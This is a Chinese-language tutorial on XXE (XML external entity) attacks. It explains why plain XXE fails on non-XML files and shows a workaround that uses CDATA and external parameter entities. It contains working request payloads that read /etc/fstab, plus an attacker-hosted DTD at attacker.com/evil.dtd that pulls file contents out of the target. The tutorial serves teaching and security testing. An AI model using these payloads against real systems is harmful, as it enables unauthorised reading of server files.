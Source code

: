 ## XML外部实体的一些限制与解决办法

**error**

通常对于XXE的经典用法，用来读取文件比较直接方便，但是，也决定了能被解析的内容元素必须是XML文档。

如下面一个例子：

request:

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/fstab">;
]>
<foo>
  &bar;
</foo>

```

response:

通常会得到如下响应

```bash
HTTP/1.0 500 Internal Server Error

File "file:///etc/fstab", line 3
lxml.etree.XMLSyntaxError: Specification mandate value for attribute system, line 3, column 15...

```

`/etc/fstab`是一个包含一些看起来像XML的字符的文件（即使它们不是XML）。这将导致XML解析器尝试解析这些元素，只是注意到它不是有效的XML文档。

因此，这限制了XML外部实体（XXE）在以下两个重要方面。

* XXE只能用于获取包含“有效”XML的文件或响应

* XXE不能用于获取二进制文件

    **XML外部实体（XXE）限制解决办法**

    这其实也就用到了外部参数实体，解决了命名实体和普通实体所带来的一些问题。具体如下分析：

    攻击者可以通过使用一些巧妙的技巧来解决上述限制。攻击者使用XML外部实体（XXE）攻击所面临的主要问题是，它很容易撞了南墙试图exfiltrate不是有效的XML文件（包含XML特殊字符，如例如，文件明文文件时`&`，`< and >`）。

* **理论上的解决办法**

    XML已经解决了这个问题，因为有些合法的情况可能需要在XML文件中存储XML特殊字符。`CDATA`XML解析器忽略（Character Data）标记中的特殊XML字符。

    ```xml
    <data><![CDATA[ < " ' & > characters are ok in here ]]></data>

    ```

    因此，从理论上讲，攻击者可以发送类似于以下内容的请求。

    request:

    ```bash
    POST http://example.com/xml HTTP/1.1

    <!DOCTYPE data [
      <!ENTITY start "<![CDATA[">
      <!ENTITY file SYSTEM 
    "file:///etc/fstab">
      <!ENTITY end "]]>">
      <!ENTITY all "&start;&file;&end;">
    ]>
    <data>&all;</data>

    ```

    预期response:

    ```bsah
    HTTP/1.0 200 OK

    # /etc/fstab: static file system informa...
    #
    # <file system> <mount point> <type> ...
    proc  /proc  proc  defaults  0  0
    # /dev/sda5
    UUID=be35a709-c787-4198-a903-d5fdc80ab2f... # /dev/sda6
    UUID=cee15eca-5b2e-48ad-9735-eae5ac14bc9...

    /dev/scd0  /media/cdrom0  udf,iso9660 ...

    ```

    但实际上并不起作用，因为XML规范不允许将**外部实体**与**内部实体**结合使用。

##### 内部实体代码示例：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>

```

##### 外部实体代码示例：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>

```

### 参数实体

然而，攻击者仍然可以扔出手里的另一张牌—参数实体，在得到以上限制解决方法之前先理解一下以下两个重点：

#### 重点一：

实体分为两种，内部实体和**外部实体**，上面我们举的例子就是内部实体，但是实体实际上可以从外部的 dtd 文件中引用，我们看下面的代码：

还是以上代码

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>

```

#### 重点二：

我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体）

**通用实体：**

用 &实体名:引用的实体，他在DTD 中定义，在 XML 文档中引用

**示例代码：**

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root>

```

**参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 **`%实体名;` **引用** (2)只有在 DTD 文件中，参数实体的声明才能引用其他实体 (3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```xml
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;

```

参数实体在我们 Blind XXE 中起到了至关重要的作用

接下来怎么做？（解决办法）

除了**一般实体**，这是我们到目前为止所看到的，还有**参数实体**。 以下是参数实体的外观。它与一般实体相同，除了它存在于DTD内部并以％作为前缀开始，以指示XML解析器正在定义参数实体（不是通用实体）。在下面的示例中，参数实体用于定义通用实体，然后在XML文档内部调用该实体。

request:

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % paramEntity
  "<!ENTITY genEntity 'bar'>">
  %paramEntity;
]>
<data>&genEntity;</data>

```

预期的response:

```
HTTP/1.0 200 OK

bar

```

考虑到上面的示例，攻击者现在可以通过创建在**[attacker.com/evil.dtd上](http://attacker.com/evil.dtd上)**托管的恶意DTD，将上面的理论CDATA示例转换为工作**攻击。**

**request:**

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>

```

**攻击者DTD（attacker.com/evil.dtd）**

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">

```

解析：

当攻击者发送上述请求时，XML解析器将首先**%dtd**通过向**http://attacker.com/evil.dtd**发出请求来尝试处理参数实体**。**

一旦下载了攻击者的DTD，XML解析器将加载`%file`参数实体（来自**evil.dtd**），在本例中是`/etc/fstab`。然后它将分别``使用`%start`和`%end`参数实体将文件的内容包装在标签中，并将它们存储在另一个名为的参数实体中`%all`。

这个技巧的核心是`%all`创建一个被调用的**通用**实体`&fileContents;`，它可以作为响应的一部分包含在攻击者中。

注:攻击者**可以**只使用DTD内参数实体，而不是内部的XML文档）

结果是回复攻击者，文件（`/etc/fstab`）的内容包含在`CDATA`标签中。


